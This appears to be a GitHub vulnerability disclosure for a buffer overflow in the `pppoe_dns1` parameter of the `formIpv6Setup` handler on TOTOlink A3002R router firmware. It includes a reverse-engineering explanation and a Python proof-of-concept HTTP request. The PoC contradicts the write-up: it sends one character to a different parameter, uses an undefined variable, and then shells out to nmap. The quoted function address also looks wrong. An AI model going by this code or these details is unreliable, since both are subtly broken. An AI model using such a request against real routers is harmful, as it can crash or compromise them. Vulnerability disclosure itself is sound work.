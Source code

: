 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `pppoe_dns1` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v39` variable is passed to `v51` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `pppoe_dns1` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`pppoe_dns1`" data, and `strcpy` copies the string pointed to by `v39` to `v51` without verifying whether `v51` has enough space to store the copied string. If the string pointed to by `v39` exceeds the size of the `v51` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
repeated = "A"
data = "submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=0&enable_dhcpv6RapidCommit={}".format (repeated)
response = requests.post (url, data=data, headers=headers,verify=False)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
